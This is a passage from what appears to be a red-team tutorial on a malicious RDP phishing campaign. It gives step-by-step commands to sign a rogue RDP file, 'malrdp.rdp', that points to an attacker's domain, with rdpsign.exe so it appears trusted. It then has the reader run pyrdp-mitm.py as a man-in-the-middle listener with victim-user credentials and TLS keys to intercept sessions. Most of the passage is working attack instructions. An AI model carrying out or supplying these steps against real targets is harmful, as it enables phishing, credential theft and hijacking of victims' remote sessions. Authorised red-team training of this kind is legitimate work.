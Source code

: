 <img src="/img/automated-thumbprint.png" class="article-image">

Now open `C:\tmp\template.rdp` in notepad and switch `<YOUR.DOMAIN.COM>` for the domain you've chosen for your campaign. Save the edited file to your VMs desktop so it can be signed.
<img src="/img/automated-template-modification.png" class="article-image">

To sign the RDP file you'll need the certificate's thumbprint you noted down earlier. Run the following command to sign the file:
```powershell
rdpsign.exe /sha256 <insert_thumbprint> .\malrdp.rdp
```

Now download a copy of the signed `malrdp.rdp` so that you can use it for phishing. But before we start firing phishes off like Vector, we need to ensure PyRDP is running. The command should look something like this:
```powershell
pyrdp-mitm.py 127.0.0.1:3389 -u <victim_user> -p 'JarJarS!thL0rd' --listen 443 -c C:\Certbot\live\malrdp\fullchain.pem -k C:\Certbot\live\malrdp\privkey.pem
```
